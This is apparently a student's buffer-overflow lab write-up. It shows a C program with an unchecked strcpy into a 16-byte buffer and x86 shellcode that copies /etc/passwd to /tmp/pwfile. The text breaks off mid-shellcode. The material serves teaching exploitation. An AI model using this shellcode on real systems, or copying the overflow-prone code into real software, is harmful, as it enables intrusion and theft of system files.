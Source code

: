 # Lab #1,22110031, Bien Xuan Huy, INSE330380E_01FIE
# Task 1: Software buffer overflow attack
Given a vulnerable C program 
```
#include <stdio.h>
#include <string.h>
void redundant_code(char* p)
{
    char local[256];
    strncpy(local,p,20);
	printf("redundant code\n");
}
int main(int argc, char* argv[])
{
	char buffer[16];
	strcpy(buffer,argv[1]);
	return 0;
}
```
and a shellcode source in asm. This shellcode copy /etc/passwd to /tmp/pwfile
```
global _start
section .text
_start:
    xor eax,eax
    mov al,0x5
    xor ecx,ecx
    push ecx
    push 0x64777373 
    push 0x61702f63
    push 0x74652f2f
    lea ebx,[esp +1]
    int 0x80

    mov ebx,eax
    mov al,0x3
    mov edi,esp
    mov ecx,edi
    push WORD 0xffff
    pop edx
    int 0x80
    mov esi,eax

    push 0x5
    pop eax
    xor ecx,ecx
    push ecx
    push 0x656c6966
    push 0x74756f2f
    push 0x706d742f
    mov ebx,esp
    mov cl,0102o
    push WORD 0644o
    pop edx
    int 0x80

    mov ebx,eax
    push 0x4
    pop eax
    mov ecx,edi
    mov edx,esi
```